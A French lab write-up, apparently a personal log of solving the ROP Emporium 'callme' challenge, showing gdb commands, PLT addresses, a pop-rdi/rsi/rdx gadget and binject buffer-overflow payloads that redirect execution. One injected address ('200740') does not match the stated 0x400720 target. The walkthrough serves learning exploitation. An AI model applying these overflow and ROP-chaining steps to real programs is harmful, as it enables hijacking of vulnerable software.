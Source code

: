 L'énoncé du challenge parle d'*inccorect calls* à ces trois dernières fonctions. J'imagine que cela fait référence à la `usefulFunction`, qui ne pourra donc pas être appelé préalablement pour résoudre les fonctions `call_me` avant de faire l'exploit. Nous utiliserons plutôt la méthode *conventionelle* qui consiste à jumper directement sur la section **.plt** pour résoudre ces fonctions.

Toujours avec **gdb**:
1. info files (*pour retrouver l'addresse des différentes sections*)
2. x/20i 0x00000000004006c0 (*avec l'addresse de la section .plt*)
3. A ce point, les symboles ne sont pas encore résolus, mais nous pouvons au minimum identifier les addresses dans la section **.plt**:
	- 0x400720 <callme_one@plt>:   jmp    *0x20091a(%rip)        # 0x601040 <callme_one@got.plt>
	- 0x400740 <callme_two@plt>:   jmp    *0x20090a(%rip)        # 0x601050 <callme_two@got.plt>
	- 0x4006f0 <callme_three@plt>: jmp    *0x200932(%rip)        # 0x601028 <callme_three@got.plt>

Aussi, ces fonctions nécessitent trois arguments (comme nous pouvons le constater en désassemblant *usefulFunction*), chargés dans les registres `%rdi`, `%rsi` et `%rdx`; un gadget ROP pour `pop`er de la stack jusqu'à ces registres nous permettrait donc d'organiser l'appel de la fonction. Dans l'executable nous avons les instructions de la fonction *usefulGadget*:
> 0x000000000040093c <+0>:&emsp;	pop    %rdi&emsp;	// for 0xdeadbeefdeadbeef <br>
> 0x000000000040093d <+1>:&emsp;    pop    %rsi&emsp; 	// for 0xcafebabecafebabe <br>
> 0x000000000040093e <+2>:&emsp;	pop    %rdx&emsp; 	// for 0xd00df00dd00df00d <br>
> 0x000000000040093f <+3>:&emsp;	ret

Avec ça, nous n'avons même pas besoin d'utiliser **ropper**. Aussi, l'énonce de ROP emporium donne une information particulièrement intéressante vis à vis de l'architecture **x64**, à savoir que les arguments doivent être de 16 bytes, soit 128 bits.

Vérifions tout de même que la fonction **pwnme** admet toujours un buffer vulnérable de 32 bytes avec le **BB** test:
> binject -ns 32 A -x BBBBBBBBBBBBBBBB > test <br>
> tgdb callme <br>
> break *(pwnme+89) // to put a breakpoint at pwnme+89, as the ret instruction <br>
> r < test

La valeur du registre `%rbp` est bien *0xbbbbbbbbbbbbbbbb*, nickel! Maintenant, essayons d'atteindre la fonction `<callme_one@plt>` à travers des instructions de résolution dans la section **.plt**:
> binject -ns 40 A -x 200740 > test <br>
> tgdb callme <br>
> break *0x400720&emsp;//the adress of \<callme_one@plt> from **.plt** section <br>
> continue

Parfait, le *breakpoint* est bien atteint.

## Binject modification
Quelques modifications de l'utilitaire **binject** semblent nécessaires:
- permettre les minuscules dans le cas du flag `-x`.
- un nouveau flag `-x64` afin de pouvoir manipuler les addresses dans le cadre de l'architecture **x64**. Nous assumerons le format *little-endian* et automatiserons le padding s'il est nécessaire.
- un nouveau flag `-of` pour générer l'*output* dans un fichier binaire.
- un nouveau flag `-if` pour lire le contenu dans fichier binaire et l'utiliser dans une nouvelle commande.

Aussi, et dans l'optique d'optimiser le développement, j'ai introduit un mécanisme de test; celui-ci inclut deux vérifications:
1. celle pour les flags de format (`-s`, `-x`, `-ns`, `-nx`) et pour le fichier de sortie (`-of`).
2. celle pour le flag de fichier d'entrée (`-if`) et la sortie console.
